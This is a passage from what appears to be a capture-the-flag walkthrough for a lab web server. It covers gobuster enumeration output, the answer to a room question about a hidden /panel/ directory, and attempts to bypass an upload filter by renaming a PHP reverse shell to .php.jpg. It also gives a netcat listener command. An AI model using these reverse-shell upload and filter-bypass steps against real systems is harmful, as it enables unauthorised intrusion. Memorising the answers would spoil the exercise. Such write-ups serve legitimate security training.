 ```bash
===============================================================
2021/05/17 01:06:28 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.202.137/css/]
/index.php            (Status: 200) [Size: 616]                                
/js                   (Status: 301) [Size: 311] [--> http://10.10.202.137/js/] 
/panel                (Status: 301) [Size: 314] [--> http://10.10.202.137/panel/]
/server-status        (Status: 403) [Size: 278]                                  
/uploads              (Status: 301) [Size: 316] [--> http://10.10.202.137/uploads/]
                                                                                   
===============================================================
2021/05/17 01:06:48 Finished
===============================================================
```

### What is the hidden directory?
- **Answer:** /panel/

---

## Getting a shell

- Visit `http://10.10.202.137/panel/`.

### Filter Bypass Attempt 1
- Initially, I tried to upload file `php-reverse-shell.php` (Don't forget to put your IP and Port in the file), which gave the following output:

```
PHP não é permitido!

(In Portuguese, which translates to)
PHP is not allowed!
```

### Filter Bypass Attempt 2
- To bypass the filter, change the file name to `php-reverse-shell.php.jpg` and then try uploading:

```
O arquivo foi upado com sucesso!

(In Portuguese, which translates to)
The file was successfully uploaded!
```

- Listen on the appropriate port using netcat: `nc -lvnp 1234`
- Open the uploaded file in the browser: `http://10.10.202.137/uploads/php-reverse-shell.php.jpg`
- But unfortunately the image couldn't be opened. So, we need to look for some other filter bypass

